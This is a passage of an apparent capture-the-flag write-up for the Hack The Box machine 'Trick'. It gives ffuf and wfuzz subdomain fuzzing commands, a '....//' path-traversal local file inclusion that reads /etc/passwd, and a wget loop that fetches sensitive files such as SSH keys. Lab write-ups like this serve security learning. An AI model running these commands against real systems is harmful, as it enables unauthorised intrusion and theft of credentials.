Fuzzed **preprod-FUZZ.trick.htb** using ffuf and wfuzz. 

For whatever reason, the ffuf didn't show much result other than preprod-payroll, which is already known. 

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-large-words-lowercase.txt -u http://preprod-FUZZ.trick.htb| tee fuff.preprod-FUZZ`

ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-large-words-lowercase.txt 
-u http://trick.htb -H "HOST :preprod-FUZZ.trick.htb" -fs 5480

-H is the header "name: Value" Once specifiy the header value, the tool worked. Don't know why. 
```





Instead of trying harder. Decided to trying smarter with fuzzer.

```

Wfuzzer 
$ wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: preprod-FUZZ.trick.htb" -u 10.10.11.166 -t 100 --hl 83 

payroll
marketing
```




Three subpages were identified. With this format, the first thing I usually try is directory traversal. The manual ../../../../etc/passwd didn't work. So wfuzz was used to do search for local file inclusion. 
```
http://preprod-marketing.trick.htb/index.php?page=services.html
http://preprod-marketing.trick.htb/index.php?page=about.html
http://preprod-marketing.trick.htb/index.php?page=contact.html


```


/etc/passwd was located with wfuzz. From the /etc/passwd, a valid username, michael, was received. 

 Used bash scripting to download sensitve and common files, such as /etc/passwd, id_rsa, etc. 


```
└─$ wfuzz -c -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt -u http://preprod-marketing.trick.htb/index.php?page=....//....//....//....//FUZZ --hw 0 >> LFI.Marketing.linux_all

─$ cat LFI.Marketing.linux_all|grep /etc/passwd
000000398:   200        42 L     69 W       2397 Ch     "/etc/passwd-"  


└─$  cat LFI.Marketing.linux_all|awk -F '"' '{print $2}' >> files.txt
└─$  cat LFI.Marketing.linux_all|awk -F '"' '{print $2}' |grep -i root >> sensitive_files.txt
└─$  cat LFI.Marketing.linux_all|awk -F '"' '{print $2}' |grep -i home >> sensitive_files.txt

From vim:
:%s!\~/!/home/michael/!                                                                                                                                 



$ while read -r line; do wget http://preprod-marketing.trick.htb/index.php?page=....//....//....//..../"$line"  ; done <  ../sensitive_files.txt


```